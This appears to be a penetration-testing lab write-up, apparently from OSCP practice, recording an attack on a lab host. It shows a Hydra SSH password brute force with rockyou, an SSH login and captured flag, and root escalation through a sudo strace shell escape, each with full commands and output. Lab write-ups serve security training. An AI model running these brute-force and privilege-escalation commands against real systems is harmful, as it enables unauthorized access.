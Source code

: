 
# brute force 

![[{7BC4111F-B95A-46ED-8782-CE680F5B60BB}.png]]

```
hydra -l lisa -P /usr/share/wordlists/rockyou.txt ssh://192.168.114.110 -t 4  -vV

[ATTEMPT] target 192.168.114.110 - login "lisa" - pass "peanut" - 163 of 14344399 [child 3] (0/0)
[22][ssh] host: 192.168.114.110   login: lisa   password: peanut
[STATUS] attack finished for 192.168.114.110 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-09 13:38:43


```

cred:
lisa
peanut

# ssh 

```
┌──(kali㉿kali)-[~/OSCP/Exam/192.168.114.110/PwnKit]
└─$ ssh lisa@192.168.114.110                                                         
lisa@192.168.114.110's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun  9 05:41:23 PM UTC 2025

  System load:  0.03759765625     Processes:               215
  Usage of /:   56.8% of 9.75GB   Users logged in:         0
  Memory usage: 28%               IPv4 address for ens160: 192.168.114.110
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

$ whoami
lisa
$ 

```
![[{C17668BA-C779-4C39-8113-5CBE070ECE9E}.png]]

Local.txt 
bee0fce51a0ecf6ada8808f2a83624b2

![[{25699792-0DE7-4C85-9B5C-DC10B00EBD10}.png]]

# escalation

```
$ sudo -l
[sudo] password for lisa: 
Matching Defaults entries for lisa on oscp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User lisa may run the following commands on oscp:
    (root) /usr/bin/strace
    (root) /usr/bin/newgrp
$ 

```
https://gtfobins.github.io/gtfobins/strace/

```
## Shell[](https://gtfobins.github.io/gtfobins/strace/#shell)

It can be used to break out from restricted environments by spawning an interactive system shell.

- ```
    strace -o /dev/null /bin/sh
    ```
```


```

$ sudo strace -o /dev/null /bin/sh
# ls
evil-so.c  exploit.c  help.txtx  local.txt  makefile  MakeFile  Pwnkit.c
# whoami
root

```


![[{B7445D4D-763A-472E-BDE4-50C35A50BF03}.png]]